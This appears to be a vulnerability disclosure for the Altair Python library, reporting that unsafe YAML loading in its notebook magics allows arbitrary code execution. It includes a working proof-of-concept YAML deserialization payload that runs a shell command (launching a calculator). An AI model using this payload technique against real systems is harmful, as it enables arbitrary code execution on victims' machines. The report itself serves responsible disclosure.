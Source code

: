 ### ⚙️ Description *
Altair is a declarative statistical visualization library for Python. With Altair, you can spend more time understanding your data and its meaning. Altair's API is simple, friendly and consistent and built on top of the powerful Vega-Lite JSON specification. This elegant simplicity produces beautiful and effective visualizations with a minimal amount of code. Altair is developed by Jake Vanderplas and Brian Granger in close collaboration with the UW Interactive Data
### 💻 Technical Description *
Yaml.load was exploitable to Arbitrary Code Execution
### 🐛 Proof of Concept (PoC) *
* run the exploit code
```
import os
# installation 
os.system("pip install altair vega_datasets")
#
import altair._magics as magics
payload = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
with open("exploit.yml","w+") as cell :
    cell.write(payload)
with open("exploit.yml","r+") as cell :
    magics.vegalite("1",cell)
```
* calc will be popped after executing the exploit code. 

